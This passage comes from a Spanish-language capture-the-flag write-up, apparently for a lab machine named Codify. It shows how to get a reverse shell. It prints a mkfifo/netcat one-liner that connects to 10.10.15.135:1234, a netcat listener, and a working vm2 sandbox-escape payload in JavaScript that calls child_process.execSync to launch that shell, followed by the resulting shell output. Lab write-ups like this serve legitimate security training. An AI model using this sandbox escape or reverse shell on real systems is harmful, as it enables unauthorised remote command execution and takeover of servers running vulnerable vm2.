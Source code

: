 ![explotation](/codify/explotation.png)

### Nota
En este punto, solo hace falta obtener la shell reversa. Intenté con varias opciones y la única que funcionó fue la siguiente:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.135 1234 >/tmp/f
```
{: .nolineno}

Se puso a la escucha con `nc`:

```bash
nc -lvp 1234
```
{: .nolineno}

Y se ejecutó el siguiente payload:

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.135 1234 >/tmp/f');
}
`

console.log(vm.run(code));
```

Con eso se obtiene **acceso** dentro de la máquina.
```bash
svc@codify:~$ whoami
whoami
svc
svc@codify:~$ pwd
pwd
/home/svc
svc@codify:~$   
```
{: .nolineno}
